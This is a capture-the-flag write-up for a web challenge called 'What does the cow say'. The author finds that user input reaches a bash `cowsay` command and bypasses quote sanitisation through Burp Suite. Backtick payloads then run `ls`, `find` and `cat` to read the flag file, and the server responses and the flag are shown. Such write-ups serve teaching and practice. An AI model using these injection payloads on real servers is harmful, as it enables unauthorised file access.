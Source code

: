 # What does the cow say

Description
---
We've got intel that APOCALYPSE has an important file within this webserver named "flag.txt".

Please help us retrieve its contents.

The URL for this challenge:
http://chals.cyberthon22f.ctf.sg:40201

Solution 
---

Upon loading the webpage, there is a text box where we can enter text and a button below to submit the query. When I pressed the button, this is what the page prints:

    $ echo -e 'Message Here' | cowsay -n

    ______________ 
    < Message Here >
    -------------- 
            \   ^__^
             \  (oo)\_______
                (__)\       )\/\
                    ||----w |
                    ||     ||

At first glance, I thought it might have been SSTI due to the page echoing back my input, but after a second look, I realised I was being stupid and it was actually a command injection challenge involving bash script.

The question was: how would I escape the quotes without causing an error?

First, I tried `'ls #`, but the query sanitised the quote, turning the query into `$ echo -e '\x27ls #' | cowsay -n`.
Thus, I decided to use Burp Suite instead, as hopefully I could edit the query through the proxy server instead to escape the quotes.

True enough, when I check the request on Burp, the request has the header `msg` set to the value `'\x27ls #'`. When i try removing the quotes and reverting the sanitisation on the quote however, leaving the header as `msg: 'ls #`, the response throws a 500 Internal Server Error. I tried multiple payloads including `'$(ls)`, ` '; ls; #`, but they both didn't work.

However, when I tried ``ls``, the request in Burp shows this :

    {
        "cmd":"$ echo -e `ls` | cowsay -n",
        "output":
        " _____ \n< app >\n ----- \n        \\   ^__^\n         \\  (oo)\\_______\n            (__)\\       )\\/\\\n                ||----w |\n                ||     ||\n"
    }

Notice how the cowsay output doesn't echo my input, but rather outputs: `'app'`? That means the command injection worked, and my command, `ls`, made the webpage print out the available directory (`'app'`) in the shell's current direcotry.

In the challenge description, we are told that the file `'flag.txt'` exists, so I changed the input to ``find / -name flag.txt``, which should make the webpage output the directory `'flag.txt'` is located in.

True enough, this is the output:

    {
        "cmd":"$ echo -e `find / -name flag.txt` | cowsay -n",
        "output":" _______________________________ \n< /usr/local/flag/here/flag.txt >\n ------------------------------- \n        \\   ^__^\n         \\  (oo)\\_______\n            (__)\\       )\\/\\\n                ||----w |\n                ||     ||\n"
    }

Thus, we know that the location of `'flag.txt'` is `/usr/local/flag/here/flag.txt`.

Now, when we change the input once again to ``cat /usr/local/flag/here/flag.txt``, we get this output:

    {
        "cmd":"$ echo -e `cat /usr/local/flag/here/flag.txt` | cowsay -n",
        "output":" _________________________ \n< Cyberthon{1_L0V3_W4GYU} >\n ------------------------- \n        \\   ^__^\n         \\  (oo)\\_______\n            (__)\\       )\\/\\\n                ||----w |\n                ||     ||\n"
    }

Flag: Cyberthon{1_L0V3_W4GYU}

